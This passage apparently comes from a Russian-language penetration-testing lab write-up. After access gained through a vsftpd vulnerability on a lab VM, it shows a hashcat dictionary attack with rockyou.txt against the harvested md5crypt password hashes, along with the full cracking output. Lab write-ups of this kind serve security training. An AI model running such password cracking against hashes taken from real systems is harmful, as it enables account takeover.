 ![VNC exploit](<Screenshot_20250315_075354.png>)

#### Перебор паролей

Получив доступ к ВМ через уязвимость в сервисе vsftpd мы получили хеши паролей пользователей.
Попробуем из подобрать используя утилиту `hashcat` а так же стандартны набор паролей из поставки Kali Linux. 

```bash
┌──(chilmankin㉿otus)-[~]
└─$  hashcat -a 0 -o cracked.txt pwd.txt /usr/share/wordlists/rockyou.txt --force 

Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 500 (md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5))
Hash.Target......: pwd.txt
Time.Started.....: Sat Mar 15 08:19:24 2025, (1 hour, 1 min)
Time.Estimated...: Sat Mar 15 09:21:05 2025, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    16714 H/s (7.72ms) @ Accel:128 Loops:500 Thr:1 Vec:8
Recovered........: 3/7 (42.86%) Digests (total), 3/7 (42.86%) Digests (new), 3/7 (42.86%) Salts
Progress.........: 100410695/100410695 (100.00%)
Rejected.........: 0/100410695 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:6 Amplifier:0-1 Iteration:500-1000
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[206b72697374656e616e6e65] -> $HEX[042a0337c2a156616d6f732103]

Started: Sat Mar 15 08:19:00 2025
Stopped: Sat Mar 15 09:21:07 2025
```
